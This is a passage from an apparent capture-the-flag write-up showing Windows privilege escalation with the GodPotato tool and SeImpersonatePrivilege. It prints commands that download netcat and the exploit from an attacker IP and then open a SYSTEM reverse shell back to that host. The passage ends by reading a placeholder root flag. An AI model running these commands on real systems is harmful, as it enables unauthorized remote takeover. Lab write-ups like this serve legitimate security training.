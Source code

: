 I will use [GodPotato](https://github.com/BeichenDream/GodPotato) to abuse `SeImpersonatePrivilege` privilege.

```powershell
cd /programdata
mkdir bruh
cd bruh
wget http://10.10.x.x/nc.exe -o nc.exe
wget http://10.10.x.x/GodPotatoNet4.exe -o god.exe
./god.exe -cmd "/c C:\programdata\bruh\nc.exe -e cmd.exe 10.10.x.x 9002"
```

# Shell as nt authority\system

## Root Flag

```cmd
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
deadbeef095bf2f78d820a34545cfake
```

